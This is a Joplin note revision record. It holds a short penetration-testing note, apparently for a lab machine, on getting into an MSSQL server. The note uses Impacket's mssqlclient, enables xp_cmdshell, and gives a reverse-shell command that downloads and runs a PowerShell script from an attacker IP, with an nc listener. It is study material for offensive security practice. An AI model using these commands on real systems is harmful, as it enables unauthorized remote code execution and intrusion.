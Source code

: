 id: 1f996ca07a514bcab50129746410cb98
parent_id: 
item_type: 1
item_id: 8aca581f7ef7448c9a0318ef9848fb51
item_updated_time: 1651157931446
title_diff: "[{\"diffs\":[[1,\"MSSQL\\\r\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":6}]"
body_diff: "[{\"diffs\":[[1,\"Use Impacket's MsSqlClient\\\n\\\n> python3 ~/tools/mssqlclient.py ARCHTYPE\\\\\\\\sql_svc@10.10.10.27 -windows-auth\\\n\\\n![fafd8448ff9800ed403b3eefff19de4a.png](:/1d9b3a8fc97549efb76c3e7e6d63d908).\\\n\\\n[MSSQL Injection Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)\\\n\\\n- First Enable xp_cmdshell and do an execution of the command to check if the shell is working\\\n\\\n> enable\\\\_xp\\\\_cmdshell;\\\n> \\\n> EXEC xp_cmdshell whoami\\\n\\\n- Then, attempt to get a reverse shell\\\n\\\n> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString(\\\"http://192.168.119.139/Invoke-PowerShellTcp.ps1\\\") | powershell -noprofile'\\\n> \\\n> \\\\# Make sure to have the command Invoke-PowerShellTcp called in the script with the LHOST and LPORT defined\\\n> \\\n> sudo nc -nlvp 433\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":787}]"
metadata_diff: {"new":{"id":"8aca581f7ef7448c9a0318ef9848fb51","parent_id":"17338627f6dc4ef4856d44508b33e0b1","latitude":"1.36730000","longitude":"103.80140000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-28T15:01:47.337Z
created_time: 2022-04-28T15:01:47.337Z
type_: 13
